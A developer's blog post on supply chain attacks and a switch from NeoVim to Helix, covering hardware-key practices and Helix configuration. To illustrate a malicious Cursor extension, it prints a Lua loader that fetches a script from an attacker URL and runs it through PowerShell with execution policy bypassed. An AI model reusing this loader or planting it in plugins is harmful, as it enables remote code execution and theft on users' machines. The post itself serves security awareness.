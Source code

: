 ```yaml
---
title: My current development workflow and tools
date: 2025-07-24
author: Jose Storopoli
description: How supply chain devastating attacks made me change my mind recently.
tags: [programming, security]
---
```


![Ulysses and the Sirens](/images/ulisses-and-the-sirens.jpg)

I work with what I call "mission critical" software,
where we have the assumption that something really bad happens
when software crashes or misbehaves.
These include not only my current employer,
[Alpen Labs](https://alpenlabs.io),
but also a lot of open source software that I maintain
and contribute to, including my dearest [`dead-man-switch`](https://crates.io/crates/dead-man-switch),
and important ecosystem dependencies like
[`rust-bitcoin`](https://rust-bitcoin.org) and [BDK](https://bitcoindevkit.org).

My threat model encompass threats from nation-states like North Korea,
and major hacker groups.
Hence, I have a fairly tinfoil-hat approach on my professional role
and workflow.

## Don't leave private keys on "hot devices"

My main security measure is to move all private keys to hardware devices.
All my SSH and PGP keys live in hardware tokens like YubiKeys,
behind a PIN and a touch confirmation.
This pairs well with PGP signing all your commits
and flagging unsigned commits as unverified.
With this approach, if my computer is compromised,
it is really hard, dare I say impossible,
to produce a signed commit or to use a SSH key,
since it depends on:

1. Hardware device plugged in
1. Correct PIN entry (note that I use the KDF setting for my PIN to mitigate USB passive listening attacks)
1. Touch confirmation

As a bonus, almost all my accounts have a [FIDO](https://fidoalliance.org/)
2FA.

## Supply chain attacks

I was baffled by a recent supply chain attack that happened.
Someone lost USD 500,000 for using cursor extensions.
I encourage you to take a look at the full report
[here](https://securelist.com/open-source-package-for-cursor-ai-turned-into-a-crypto-heist/116908/),
the discussion at
[reddit](https://www.reddit.com/r/vscode/comments/1lxrxp9/someone_just_lost_500000_for_using_cursor/)
and also taking a look at this [YouTube video](https://youtu.be/CqKZhYsjw6M)
that does a post-morten on the whole thing:

<style>
  .embed-container {
    position: relative;
    padding-bottom: 56.25%;
    height: 0;
    overflow: hidden;
    max-width: 100%;
  }
  .embed-container iframe,
  .embed-container object,
  .embed-container embed {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
  }
</style>
<div class="embed-container">
  <iframe
    src="https://www.youtube.com/embed/CqKZhYsjw6M"
    frameborder="0"
    allowfullscreen
  ></iframe>
</div>

What surprised me in this supply chain attack is how legit was
the malicious extension.
I might have fallen for this,
of course with the caveat that maybe I would not lose $500k.
First, I don't have that kind of money,
and second, remember, my private keys never touches or resides in my computer;
i.e. my private keys are never "hot", always "cold".

I don't use VS Code or Cursor, and I can go on and on why that
fucking thing is way too bloated and a spyware;
but you can check my [soydev post](/posts/2023-11-10-soydev.html)
or my [JavaScript Antichrist rant](/posts/2024-11-10-road-less-travelled.html#avoiding-javascript).
But I did use NeoVim with a shitload of plugins[^zed].
The issue with NeoVim plugins is that all of plugin managers
blindly fetch code from GitHub repos,
without any attestation (PGP verification)
or integrity (SHA hash verification) measures.

[^zed]: {-} Note that this is not exclusively to VS Code or NeoVim,
  [Zed](https://zed.dev) also has external plugin support that blindly
  fetches code from GitHub repos without any checks that can execute
  arbitrary code in your computer.

The following Lua code is a direct translation of the evil JavaScript code
that the malicious extension had:

```lua
-- WARNING: This is malicious code pattern - DO NOT USE

local http = require("socket.http")
local io = require("io")
local os = require("os")

-- Function to download content from URL
function downloadScript(url)
    local response, status = http.request(url)
    if status == 200 then
        return response
    else
        return nil
    end
end

-- Function to execute PowerShell script
function executePowerShell(script)
    -- Write script to temporary file
    local tempFile = os.tmpname() .. ".ps1"
    local file = io.open(tempFile, "w")
    if file then
        file:write(script)
        file:close()
        
        -- Execute PowerShell script
        os.execute("powershell.exe -ExecutionPolicy Bypass -File \"" .. tempFile .. "\"")
        
        -- Clean up
        os.remove(tempFile)
    end
end

-- Main malicious logic
local maliciousUrl = "https://angelic.su/files/1.txt"
local script = downloadScript(maliciousUrl)

if script then
    executePowerShell(script)
end
```

Put this in any NeoVim plugin and BOOM! get pwned.
This is not hard to do since all it takes is a single malicious commit
in a plugin that is not so closely watched.
Pair that with the fact that one of the most popular NeoVim distributions,
[LazyVim](https://lazyvim.org),
by default configures the package manager to [update plugins automatically
**without notifying** the user](https://github.com/LazyVim/starter/blob/803bc181d7c0d6d5eeba9274d9be49b287294d99/lua/config/lazy.lua#L34-L37):

```lua
checker = {
  enabled = true, -- check for plugin updates periodically
  notify = false, -- notify on update
}, -- automatically check for plugin updates
```

and we have a time-bomb recipe for disaster.

Given these supply chain risks and my need for secure development practices,
I decided to overhaul my entire development workflow
to minimize external dependencies and attack vectors.

## Enter Helix

I made quite a few changes recently in my environment.
First, I cleaned up all my installed packages to the absolute bare minimum.
I use a MacBook as my main development machine.
I am trusting two package managers:
[Homebrew](https://brew.sh),
and [Nix](https://search.nixos.org).
Both of them have plenty of eyes in centralized GitHub repositories that act
as the main listing of packages, and perform integrity checks to mitigate
supply chain attacks.
I am fine with using both Homebrew and Nix as my package managers,
and being extra judicious on which packages I install[^nix].

[^nix]: {-} If I ever need a package or dependency that is seldom used,
  I can move that to a [Nix flake](https://wiki.nixos.org/wiki/Flakes)
  or a [Nix devshell](https://wiki.nixos.org/wiki/Development_environment_with_nix-shell);
  or just use it with `nix-shell -p foo`.

The second big change, was to move away from NeoVim and replace it for
[Helix](https://helix-editor.com).
[Helix](https://helix-editor.com) is a Rust-based modal editor very similar to NeoVim.
However, Helix is complete. It comes with all batteries included:
LSP, file picker, status line, treesitter integration, autoformatting, surround, etc.
Contrary to NeoVim, you don't need to install a shitload of plugins to make it
bare usable.
It is amazing straight out of the box.

I was already a happy Helix user in the past,
but I fell for NeoVim's plugins' siren call.
I did not tie myself to a mast like
[Ulysses](https://en.wikipedia.org/wiki/The_Sirens_and_Ulysses).
I've replaced my 1,000-line Lua [NeoVim config](https://github.com/storopoli/nvim)
for a very simple 61 lines of [Helix `config.toml`](https://gist.github.com/storopoli/e63b10dafdcc764f2bfe84f75c61e20a).

This tiny Helix configuration covers all my needs that I had to resort with
NeoVim plugins.
I had to add custom commands to cover two things that I've missed when switching:

1. **Copying permalinks to GitHub**.
  In NeoVim, I've solved this by using a plugin called
  [`gitlinker.nvim`](https://github.com/linrongbin16/gitlinker.nvim).
  Alas, not a problem, I asked Claude Code to try to reproduce the behavior,
  prompting it to take a look at `gitlinker.nvim`, and it produced this beautiful
  `sed` and `git` dark arts concoction that I can understand what is doing
  and it would take probably lots of hours for myself alone to come up with this
  solution:

  ```toml
  [keys.normal.space]
  o = [":sh echo \"$(git remote get-url origin | sed 's/\\.git$//' | sed 's/git@github\\.com:/https:\\/\\/github\\.com\\//')/blob/$(git rev-parse HEAD)/%{buffer_name}#L%{selection_line_start}-L%{selection_line_end}\" | pbcopy"] 

  [keys.select.space]
  o = [":sh echo \"$(git remote get-url origin | sed 's/\\.git$//' | sed 's/git@github\\.com:/https:\\/\\/github\\.com\\//')/blob/$(git rev-parse HEAD)/%{buffer_name}#L%{selection_line_start}-L%{selection_line_end}\" | pbcopy"] 
  ```

  I could make this more robust to varying `origin` sources like `codeberg.org`,
  or to Linux versus MacOS clipboard managers,
  but this is fine and addresses 99% of my needs.

1. **Reset git hunks**.
  In NeoVim, I used [`gitsigns.nvim`](https://github.com/lewis6991/gitsigns.nvim)
  to have friendly cues in the line gutter about version-controlled changes
  in my current buffer.
  Helix has that already built-in: no plugin needed.
  However, it does not expose a very common command that I use as a keybind:
  "reset hunk".
  No problem, I can just map the damn thing:

  ```toml
  [keys.normal]
  C-g = ":reset-diff-change"

  [keys.select]
  C-g = ":reset-diff-change"
  ```

Finally, there are two things that Helix brings to the table that I could not
find in NeoVim, even with plugins:

1. **Modal action philosophy**.
  In Vim and NeoVim, the philosophy is action then movement.
  First you specify an _action_, then you specify _what range_ you want to perform that action.
  For example "delete a word" is `dw`.
  In Helix, it is the opposite.
  First you specify a _range_ then _what action_ you want to perform.
  The example above, "delete a word", is `wd`.
  This is very nice because you get instant feedback loop on the range,
  and the action comes with no surprises.
  This flipped approach makes more intuitive sense to me.
1. **Local configurations**.
  Helix will scan for language and editor configurations in a `.helix/` sub-directory
  in your root directory.
  This is awesome, because you can add custom configuration for LSP and autoformatters,
  or any other language setting in a `.helix/languages.toml` file;
  or custom editor configurations in a `.helix/config.toml` file.
  This is paramount when comparing to NeoVim,
  where the [`exrc`](https://neovim.io/doc/user/starting.html#exrc) feature
  was always buggy and never worked for me without constant tinkering.

## Conclusion

Supply chain attacks are a real and growing threat in our development ecosystem.
By reducing external dependencies, using hardware tokens for authentication,
and choosing tools with fewer plugin requirements,
we can significantly reduce our attack surface.
The shift from NeoVim to Helix represents more than just a tool change ---
it's a security-conscious decision that maintains productivity while minimizing risk.
